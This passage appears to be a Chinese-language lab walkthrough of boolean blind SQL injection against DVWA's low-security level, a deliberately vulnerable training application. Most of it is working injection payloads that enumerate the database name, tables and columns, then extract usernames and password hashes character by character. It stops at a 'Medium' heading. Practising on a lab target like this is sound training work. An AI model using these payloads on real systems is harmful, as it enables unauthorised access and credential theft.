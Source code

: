 ![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmR3icQ5LXHOeBdk2Y8pnoSL4toTtMRIUYAAeIpo4JVJ100TicadwhAG4OOjkkYPO1UU8t67uttHNW0Q/640?wx_fmt=png&from=appmsg "")  
  
没有报错信息回显，我们使用布尔盲注  
### 判断注入点  
```
1' and 1=1#
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmR3icQ5LXHOeBdk2Y8pnoSL4FShLcofsrKbeKmXldEFzWZglgdgonVibmX8hpWgmiaz7EjSZPXMaq96w/640?wx_fmt=png&from=appmsg "")  
### 判断数据库名长度  
```
1' and length(database())=4#
```  
### 爆数据库名  
  
使用substr()函数  
，逐一判断为：**dvwa**  
```
1' and ascii(substr(database(),1,1))>97#
```  
### 判断表名长度  
```
1' and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>1#
```  
### 爆表名  
```
1' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>1#
```  
### 判断列名长度  
```
1' and length((select group_concat(column_name) from information_schema.columns where table_name="user" and table_schema=database()))>1#
```  
### 爆列名： user和password  
```
1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>1#
```  
### 爆数据  
  
然后再使用二分法猜解user字段  
的值：（用户名）  
```
1' and ascii(substr((select user from users limit 0,1),1,1))=xxx#（第一个字符）1' and ascii(substr((select user from users limit 0,1),2,1))=xxx #（第二个字符）      ......                                 
```  
  
猜解password字段  
的值：（密码）  
```
1' and ascii(substr((select password from users limit 0,1),1,1))=xxx #（第一个字符）.....
```  
## Medium  
  
